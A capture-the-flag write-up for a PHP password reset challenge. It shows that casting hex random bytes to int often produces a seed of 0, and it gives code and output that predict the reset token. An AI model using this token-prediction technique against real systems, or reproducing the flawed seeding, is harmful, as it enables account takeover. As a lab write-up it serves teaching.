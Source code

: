# Password reset reloaded - Challenge 120

This challenge is like the other password reset challenge except this time the seed is not the time but instead using the more secure openssl_random_pseudo_bytes() function to generate the seed.

The vulnerability here is the following line:

`$seed = (int)bin2hex(openssl_random_pseudo_bytes($size / 2));`

The type casting leads to a type juggling situation where the resulting $seed is sometimes equal to 0.

Let's generate a few tokens with the following:

``` php
$size = 32;
$token = "";
$seed = (int)bin2hex(openssl_random_pseudo_bytes($size / 2));
srand($seed);
for($i = 0; $i < 16; $i++) {
$randomDigit = (string)rand() % 10;
$token .= "," . $randomDigit;
}
$token = str_replace(",", "", $token);
print $token;
```

Here are the tokens generated after running the above code a few times:

1735952265735166 <<
5502620931680800
1735952265735166 <<
1735952265735166 <<
7859402784234612
1735952265735166 <<

Notice that the 1735952265735166 token appears more often, this is statistically very unlikely to occur if the seed is truly random.

Let's dig deeper and check what seed is being generated:
 
``` php
$size = 32;
print((int)bin2hex(openssl_random_pseudo_bytes($size / 2)));
```

Output:

```
42877
0
9
6514
0
0
42525369
0
21
877
0
```

Ok, the seed is often 0 because of the type casting, this confirms our theory.

Unfortunately, submitting 1735952265735166 as the recovery key didn't work for me. I tried the same PHP code under Linux instead of MacOS and I got a different token. This token worked as the recovery key and I was able to get the flag.

```
1928470578251875
3675356291270936 <<
3675356291270936 <<
8504939746844277
3984011852107793
3267998061542056
3675356291270936 <<
```


